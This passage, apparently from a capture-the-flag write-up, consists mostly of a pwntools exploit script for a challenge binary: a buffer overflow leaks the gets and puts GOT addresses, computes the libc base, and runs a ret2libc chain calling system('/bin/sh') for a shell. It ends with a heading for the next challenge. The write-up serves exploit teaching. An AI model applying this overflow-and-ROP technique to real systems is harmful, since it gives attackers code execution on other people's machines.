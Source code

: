putsPlt = exe.plt["puts"]
mainSym = exe.sym["main"]

payload = b"A" * 56
payload += p64(getsGot) * 2
payload += p64(putsPlt)
payload += p64(mainSym)

p.sendlineafter(b"sus?\n", payload)
leak = p.recvline().strip().ljust(8, b"\x00")
leak = u64(leak)
log.info(f"Gets leak : {hex(leak)}")

payload = b"A" * 56
payload += p64(putsGot) * 2
payload += p64(putsPlt)
payload += p64(mainSym)

p.sendlineafter(b"sus?\n", payload)
leak = p.recvline().strip().ljust(8, b"\x00")
leak = u64(leak)
log.info(f"Puts leak : {hex(leak)}")

#gdb.attach(p)
libc.address = leak - (0x007f49f983e090 - 0x007f49f97c7000)
log.info(f"Libc base : {hex(libc.address)}")

pop_rdi = libc.address + 0x00000000000277e5
ret = pop_rdi + 1
system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh\x00"))
log.info(f"Pop rdi : {hex(pop_rdi)}")
log.info(f"System : {hex(system)}")
log.info(f"Binsh : {hex(binsh)}")

payload = b"A" * 72
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

p.sendlineafter(b"sus?\n", payload)

p.interactive()
{% endhighlight %}

## Pwn/Pizza

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/f02ed5bf-381d-4393-8e66-56cd0d949531)
